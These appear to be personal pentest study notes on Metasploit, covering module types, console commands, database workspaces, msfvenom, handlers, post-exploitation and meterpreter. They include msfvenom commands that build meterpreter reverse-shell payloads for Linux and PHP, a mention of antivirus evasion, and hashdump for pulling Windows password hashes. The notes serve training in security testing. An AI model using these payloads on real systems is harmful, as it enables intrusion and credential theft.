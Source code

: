 
Start: msfconsol 
generate custom payloads: msfvenom

#### Modules and categories:
- Auxiliary: Support modules such as scanners and fuzzers
- Encoders: Encode exploits or payloads to hide from antivirus 
- Evasion: Modules that try to evade antivirus -> More advances way then encoding
- Exploits: Different exploits for different targets.
- NOPs: Do nothing, used to create buffers 
- Payloads: Code that will run on the target:

Different types of payloads:
![[Pasted image 20241117205823.png]]


Useful console commands:
```
- use:
- back: 
- seach:
- info: 
- set:
- unset:
- setg:
- unsetg:
- show options
```

Remember when an exploit is chosen, we can use the default payload OR use `show payloads` to look for other options. 


#### Workspaces:
In larger pentests, we can organize attacks and enumerations in a database while working. 

```
systemctl start postgresql
msfdb init 


---- Then launch msfconsole ------
Relevant commands: 

db_status: Confimes the db is running
workspace: lists workspaces 
db_nmap: Do a nmap scan, and save the findings in the db 
hosts:
services: 
```


### msfvenom:

Generate custom and encoded payloads 

```
msfvenom -l payloads: lists all payloads

### Examples: ###

Generate meterpreter rev shell for linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

Generate meterpreter rev shell with php:
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```


Based on the payload we generate with msfvenom, we need to pick a handler (code that runs on our machine) that fits our chosen payload.  We often use `exploit/multi/handler`, but we need to customize its payload to fit the payload we have on the target:  

Example: For the .elf reverse shell, we used the standard multi handler with: `linux/x86/meterpreter/reverse_tcp` as the payload for the handler. 

When we get a connection on the target, we have to do post exploitation. 

`seach type:post platfrom:<target_platfrom> any_other_keyword`

Then in the same console as we have the reverse shell, background the session, and use the post exploitation selected. In the post exploitation, we specify the session we want to post-exploit. 

```
Usefull:
backgroud: background the current session
session: lists the current sessions
```


### meterpreter:

- Runs on the target system and act as a reverse shell.
- Runs in the memory of the target, not on disk.

We have different versions of meterpreter, that fits different targets. List possible meterpreter payloads:

`msfvenom --list payloads | grep meterpreter`

Relevant questions to answer when picking the correct meterpreter payload:
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.)

 When we have a meterpreter "shell" on the target, we have lots of commands to use:
```
help: Since commands vary from different meterpreters
ps: Lists the current processes 
sysinfo: Lists systeminfo
hashdump: outputs the hashed found in the SAM (Security Account Manager) database (Windows)

....
```






